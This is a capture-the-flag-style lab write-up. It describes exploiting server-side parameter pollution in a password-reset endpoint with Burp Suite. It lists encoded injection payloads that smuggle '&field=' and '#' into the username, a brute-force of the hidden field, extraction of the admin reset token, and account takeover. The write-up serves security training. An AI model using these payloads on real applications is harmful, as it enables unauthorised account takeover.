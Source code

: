 
# Exploiting a Password Reset Vulnerability

## Overview

In this lab, I exploited a password reset vulnerability in the application by manipulating parameters to reveal a password reset token for the administrator account. This allowed me to reset the administrator’s password and delete a user from the admin panel.

## Steps

### 1. Triggering the Password Reset Request

In Burp's browser, I triggered a password reset for the **administrator** user, capturing the request in **Proxy > HTTP history**. The captured request looked like this:

```http
POST /forgot-password HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

username=administrator
```

I then right-clicked the request and sent it to **Repeater** to observe the response and confirm consistent behavior.

### 2. Testing with Invalid Username

I changed the value of the `username` parameter to an invalid one, such as `administratorx`, and sent the request:

```json
{
  "username": "administratorx"
}
```

This resulted in a **400 Bad Request** response with an error message:

```json
{
  "error": "Invalid username"
}
```

### 3. Attempting Parameter Injection

Next, I attempted to inject a new parameter by appending an additional URL-encoded parameter (`&x=y`) using the following payload:

```http
username=administrator%26x=y
```

This returned a **Parameter not supported** error:

```json
{
  "error": "Parameter is not supported"
}
```

This indicated that the server may have interpreted the `&x=y` as a separate parameter.

### 4. Truncating the Query String with `#`

I attempted to truncate the query string by appending a URL-encoded `#` character:

```http
username=administrator%23
```

This resulted in a **Field not specified** error:

```json
{
  "error": "Field not specified"
}
```

This suggested the presence of a `field` parameter in the server-side query that was likely being removed due to the `#`.

### 5. Adding a New Field Parameter

I then attempted to inject a new `field` parameter and truncate the query string using the following payload:

```http
username=administrator%26field=x%23
```

This returned an **Invalid field** error:

```json
{
  "error": "Invalid field"
}
```

This indicated that the application recognized the injected `field` parameter.

### 6. Brute-Forcing the Field Parameter

I brute-forced the value of the `field` parameter using Burp Intruder. The payloads I used for brute-forcing included common server-side variable names like `username`, `email`, etc. The payload string was as follows:

```http
username=administrator%26field=§x§%23
```

After reviewing the results, I noticed that the requests with the `email` payload returned a **200 OK** response.

### 7. Changing the Field Parameter to `email`

I modified the request to use `email` as the `field` parameter:

```http
username=administrator%26field=email%23
```

This returned the original response, indicating that `email` was a valid field type.

### 8. Extracting the Password Reset Token

Upon reviewing the **/static/js/forgotPassword.js** file in **Proxy > HTTP history**, I found the password reset endpoint and the parameter `reset_token`.

I modified the payload again to inject the `reset_token` field:

```http
username=administrator%26field=reset_token%23
```

This returned the password reset token for the administrator:

```json
{
  "reset_token": "123456789"
}
```

### 9. Resetting the Administrator's Password

I entered the password reset endpoint in the browser, appending the `reset_token`:

```http
/forgot-password?reset_token=123456789
```

I then set a new password for the administrator.

### 10. Logging In and Deleting the User

Finally, I logged in as the administrator using the new password, navigated to the admin panel, and deleted **carlos** to solve the lab.
